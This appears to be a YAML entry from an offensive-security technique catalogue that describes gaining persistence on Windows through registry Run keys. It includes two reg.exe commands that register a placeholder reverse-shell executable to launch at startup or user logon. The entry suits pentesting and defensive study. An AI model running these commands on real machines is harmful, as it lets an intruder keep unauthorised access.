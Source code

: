 ```yaml
---
description: |
  It is possible to gain persistence on a windows machine by adding reg keys that will execute an arbitrary payload during logon or startup. Keys added to the HKLM hive will execute on startup. Keys added to the HKCU hive will execute when the corresponding user logs on. Adding keys into the HKLM hive will require an elevated shell. There are four keys that can be used: Run, RunOnce, RunServices, and RunServicesOnce. By default, a RunOnce key is deleted after the specified command is executed. The path for these keys is the same for the HKLM and HKCU hives.

  Command Reference:

  	Value Name: Persistence

  	RegKey data type: REG_SZ

  	Data: "C:\Path\To\revshell.exe"

  	KeyName: "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run"

command: |
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

   reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Persistence /t REG_SZ /d "C:\Path\To\revshell.exe"

items:
  - Shell
OS:
  - Windows
attack_types:
  - Persistence
references:
  - https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/
  - https://www.hackingarticles.in/windows-persistence-using-winlogon/
  - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg
  - https://docs.microsoft.com/en-us/windows-hardware/drivers/install/runonce-registry-key
---
```

